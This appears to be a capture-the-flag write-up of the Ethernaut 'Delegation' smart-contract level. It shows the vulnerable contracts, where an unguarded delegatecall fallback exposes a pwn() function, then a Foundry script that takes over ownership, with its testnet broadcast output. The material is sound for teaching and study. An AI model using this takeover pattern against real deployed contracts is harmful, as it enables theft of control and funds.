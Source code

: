 ```yaml
---
layout: post
title: "Delegation"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. claim ownership

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

The `fallback()` function in the Delegation contract performs `delegatecall()` to the Delegate contract.

The Delegation contract's state can be changed by caliing the `pwn()` function in Delegate contract via `delegatecall()`.

`msg.sender` in the Delegate contract will be EOA because the call is made by using `delegationcall()`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Delegation.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract DelegationSol is Script {
    Delegation public delegation_ = Delegation(0x604BD638031054664E87618f46871c5423E9cbFF);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address(delegation_).call(abi.encodeWithSignature("pwn()"));
        console.log("owner: ", delegation_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/DelegationSol.sol --broadcast
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠔] Solc 0.8.29 finished in 280.67ms
Compiler run successful with warnings:
Warning (9302): Return value of low-level calls not used.
  --> script/DelegationSol.sol:14:9:
   |
14 |         address(delegation_).call(abi.encodeWithSignature("pwn()"));
   |         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Script ran successfully.

== Logs ==
  owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001000019 gwei

Estimated total gas used for script: 43100

Estimated amount required: 0.0000000431008189 ETH

==========================

##### holesky
✅  [Success] Hash: 0xd749896a13ac87778efd535f37a37c59d6b88fedeb517b326aa83c0af160e8fd
Block: 3677303
Paid: 0.000000031204249632 ETH (31204 gas * 0.001000008 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000031204249632 ETH (31204 gas * avg 0.001000008 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Delegation/complete.png)